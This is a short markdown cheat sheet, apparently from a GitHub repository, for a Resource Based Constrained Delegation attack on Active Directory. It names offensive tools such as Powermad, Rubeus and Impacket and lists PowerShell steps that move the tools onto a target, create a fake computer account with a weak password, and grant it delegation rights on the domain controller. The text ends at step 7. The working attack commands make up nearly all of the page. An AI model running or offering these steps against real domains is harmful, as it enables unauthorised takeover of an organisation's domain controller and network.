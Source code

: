 ## Resource Based Constrained Delegation (RBCD)

## TOOLS: Bloodhound, Powermad, Powerview, Kekeo, Impacket, AD powershell module

### Requirements: Your current user belongs to a group that has write access/generic all privileges on the DC.

### STEPS:

#### 1) Transfer rubeus and powermad on target machine

#### 2) Import-Module ./powermad.ps1 (Import powermad)

#### 3) Import-Module ActiveDirectory

#### 4) Set-Variable -Name "PwnPC" -Value "PWN01"

#### Set-Variable -Name "targetComputer" -Value "DC" (Set variables)

#### 5) New-MachineAccount -MachineAccount (Get-Variable -Name "PwnPC").Value -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose ( With powermad, add the new fake computer object to AD)

#### 6) Set-ADComputer (Get-Variable -Name "targetComputer").Value -PrincipalsAllowedToDelegateToAccount ((Get-Variable -Name "PwnPC").Value + '$') (With built-in AD modules, give the new fake computer object the Constrained Delegation privilege)

#### 7) Get-ADComputer (Get-Variable -Name "targetComputer").Value -Properties PrincipalsAllowedToDelegateToAccount (With built-in AD modules, check that the last command worked)
